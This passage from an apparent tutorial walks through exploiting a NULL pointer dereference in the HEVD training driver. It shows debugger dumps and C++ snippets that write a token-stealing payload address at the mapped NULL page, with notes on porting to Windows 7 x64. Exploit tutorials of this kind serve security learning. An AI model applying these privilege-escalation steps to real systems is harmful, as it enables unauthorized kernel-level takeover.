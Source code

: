 ```
HEVD!main+0x1aa:
001b:002e11ea movsx   ecx,byte ptr [esi]

kd> dd 0
00000000  aabbccdd 00000000 00000000 00000000
00000010  00000000 00000000 00000000 00000000
00000020  00000000 00000000 00000000 00000000
00000030  00000000 00000000 00000000 00000000
00000040  00000000 00000000 00000000 00000000
00000050  00000000 00000000 00000000 00000000
00000060  00000000 00000000 00000000 00000000
00000070  00000000 00000000 00000000 00000000
```
A nice way to verify the NULL page is allocated, is by calling `VirtualProtect` which queries/sets the protection flags on memory segments. `VirtualProtect` returning false means the NULL page was not allocated.


---

### 3. Controlling execution flow

Now we want to put our payload address at `0x00000004`:

```cpp
*(INT_PTR*)(uBuffer + 4) = (INT_PTR)&StealToken;
```

Now create a dummy buffer to send to the driver and put a breakpoint at `HEVD!TriggerNullPointerDereference + 0x114`.

```
kd> dd 0
00000000  00000000 0107129c 00000000 00000000
00000010  00000000 00000000 00000000 00000000
00000020  00000000 00000000 00000000 00000000
00000030  00000000 00000000 00000000 00000000
00000040  00000000 00000000 00000000 00000000
00000050  00000000 00000000 00000000 00000000
00000060  00000000 00000000 00000000 00000000
00000070  00000000 00000000 00000000 00000000
```

Finally, after executing the token stealing payload, a `ret` with no stack adjusting will do.

![Exploit_screenshot]({{ "/images/kernel7.png" | absolute_url }})

### 4. Porting to Windows 7 x64

To port the exploit, you only need to adjust the offset at which you write the payload address as the struct size becomes 16 bytes. Also don't forget to swap out the payload.

```cpp
*(INT_PTR*)(uBuffer + 8) = (INT_PTR)&StealToken;
```

---

\- Abatchy